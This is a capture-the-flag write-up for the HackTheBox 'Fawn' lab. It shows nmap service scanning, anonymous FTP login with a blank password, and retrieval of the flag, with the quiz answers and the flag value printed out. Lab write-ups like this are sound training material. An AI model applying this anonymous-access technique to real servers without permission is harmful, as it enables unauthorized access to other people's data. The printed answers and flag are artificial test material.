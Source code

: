 ```yaml
---
title: "HackTheBox: Fawn"
description: 
date: 2022-02-19T22:02:29+02:00
image: cover.png
math: 
license: 
hidden: false
comments: false
draft: false
categories:
    - HTB
    - Writeup
    - Very Easy
    - Linux
    - FTP
    - Account Misconfiguration
---
```

## Intro
This is another Very Easy machine from the Starting Point section on HackThebox. As is typical, besides just getting the root flag, we will need to answer some questions.

## Tasks

### Task 1: What does the 3-letter acronym FTP stand for?
```
File Transfer Protocol
```

### Task 2: What communication model does FTP use, architecturally speaking?
Here's what the FTP architecture looks like (at a high level).

![FTP architecture (Source: educba.com)](ftp_architecture.png)

Thus, our answer would be:
```
Client-Server model
```

### Task 3: What is the name of one popular GUI FTP program?
```
Filezilla
```

### Task 4: Which port is the FTP service active on usually?
```
21 TCP
```

### Task 5: What acronym is used for the secure version of FTP?
`Secure File Transfer Protocol`
```
SFTP
```

### Task 6: What is the command we can use to test our connection to the target?
```
ping
```

Let's test out the connection:
```bash
weaponizedpeach@Akatosh:~$ ping 10.129.226.127
PING 10.129.226.127 (10.129.226.127) 56(84) bytes of data.
64 bytes from 10.129.226.127: icmp_seq=1 ttl=63 time=48.9 ms
64 bytes from 10.129.226.127: icmp_seq=2 ttl=63 time=48.7 ms
64 bytes from 10.129.226.127: icmp_seq=3 ttl=63 time=48.6 ms
^C
--- 10.129.226.127 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 48.627/48.742/48.871/0.100 ms
weaponizedpeach@Akatosh:~$
```

### Task 7: From your scans, what version is FTP running on the target?
Let's run an nmap scan:

```bash
weaponizedpeach@Akatosh:~$ nmap 10.129.226.127
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-19 22:27 EET
Nmap scan report for 10.129.226.127
Host is up (0.048s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
weaponizedpeach@Akatosh:~$
```

Here we can see an open FTP port on 21 TCP. However, this is not enough, we also need to get the specific version of FTP used. Let's run nmap again, this time with service and version detection (`-sV`) enabled.

```bash
weaponizedpeach@Akatosh:~$ nmap -sV 10.129.226.127
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-19 22:31 EET
Nmap scan report for 10.129.226.127
Host is up (0.049s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.55 seconds
weaponizedpeach@Akatosh:~$
```

This time we got some additional information. Thus, the answer is:
```
vsftpd 3.0.3
```

### Task 8: From your scans, what OS type is running on the target?
We can use the nmap output from the previous task to identify the answer to this one as well.
```
Unix
```

### Submit root flag
Given the fact that the box is oriented towards FTP and there is only a single open port - an FTP service, let's try to connect to it and see what happens.

```bash
weaponizedpeach@Akatosh:~$ ftp 10.129.226.127
Connected to 10.129.226.127.
220 (vsFTPd 3.0.3)
Name (10.129.226.127:weaponizedpeach):
```

We are being asked for a username. Some FTP servers allow anonymous access, maybe this is one of them, let's give it a try, if so, the password is likely blank:
```bash
Name (10.129.226.127:weaponizedpeach): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

We're in. Let's snoop around and try to snag the flag.

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (34.7996 kB/s)
ftp> exit
221 Goodbye.
weaponizedpeach@Akatosh:~$ ls
OpenVPN  flag.txt
weaponizedpeach@Akatosh:~$ cat flag.txt
035db21c881520061c53e0536e44f815
weaponizedpeach@Akatosh:~$
```

As usual, we need to provide the flag itself in the format of HTB{\_flag\_}:
```
HTB{035db21c881520061c53e0536e44f815}
```

And that's it for Fawn!